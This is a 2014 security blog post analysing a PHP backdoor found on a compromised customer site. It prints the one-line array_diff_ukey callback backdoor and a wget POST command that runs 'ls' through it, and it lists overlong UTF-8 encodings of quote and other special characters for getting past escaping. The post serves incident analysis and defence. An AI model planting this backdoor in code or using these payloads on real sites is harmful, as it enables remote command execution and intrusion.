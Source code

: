 +++
title ="PHP callback function backdoor"
date ="2014-05-10"
categories = ["Security"]
tags = ["Backdoor", "PHP"]
slug = "php-callback-function-backdoor"
project_url = "https://greyhat.dk/php-callback-function-backdoor"
type = "post"
description = "Understanding a found PHP backdoor"
+++

I recently had an incident at a customers website where the site was
compromised. The customer went through the code and found several SQL
injections, XSS and newly added files with backdoors (basic evals in
PHP). All vulnerabilities was fixed (According to the customer) but
about a month later the site was compromised again. Unfortunately no
version control was used so we had to go through all files to help the
customer and the log had no indications of successful attempts.

In several files I found code like this

```php
    @array_diff_ukey(@array((string)$_REQUEST['list']=>1), @array((string)stripslashes($_REQUEST['list2'])=>2),$_REQUEST['var']);
```

It took me a while to fully understand what this is. This is a quite
clever backdoor and the reason why its was not detected in apaches log
is that POST was used to execute the command for compromising.

So in order to execute a command on the system all the attacker had to
  do was

```sh
    $ wget -S -O - --post-data 'var=system&list=ls' http://example.com/g.php --2014-05-10 14:23:45-- http://example.com/g.php Resolving example.com... 127.0.0.1 Connecting to example.com|127.0.0.1|:80... connected. HTTP request sent, awaiting response... HTTP/1.1 200 OK Date: Sat, 10 May 2014 12:23:45 GMT Server: Apache Connection: close Content-Type: text/html Length: unspecified [text/html] Saving to: 'STDOUT' 
    [<=> ] 0 --.-K/s
    cv.pdf
    g.php
    index.html
    index5.html
    [ <=> ] 79 --.-K/s in 0s
    2014-05-10 14:23:45 (428 KB/s) - written to stdout [79]
```


Nice directory listing :) I'm pretty sure you can find alternative ways
to use this then listing files. But since the customer did not find this
backdoor using a review it really proves a few things.

-  Always use version control on your software (Subversion, Git etc)
-  Always sanitize input
-  Hire developers who knows the current languages pitfalls, know how to
   review code.

Another thing I found was a heavy usage of the php function
mysql\_real\_escape\_string. The function does not provide any real
security since it does not handle overlong UTF-8 chars.

```sh
    ' = %27 = %c0%a7 = %e0%80%a7 = %f0%80%80%a7 
    " = %22 = %c0%a2 = %e0%80%a2 = %f0%80%80%a2 
    < = %3c = %c0%bc = %e0%80%bc = %f0%80%80%bc
    ; = %3b = %c0%bb = %e0%80%bb = %f0%80%80%bb 
    & = %26 = %c0%a6 = %e0%80%a6 = %f0%80%80%a6 
    \0= % 00 = %c0%80 = %e0%80%80 = %f0%80%80%80
```
 
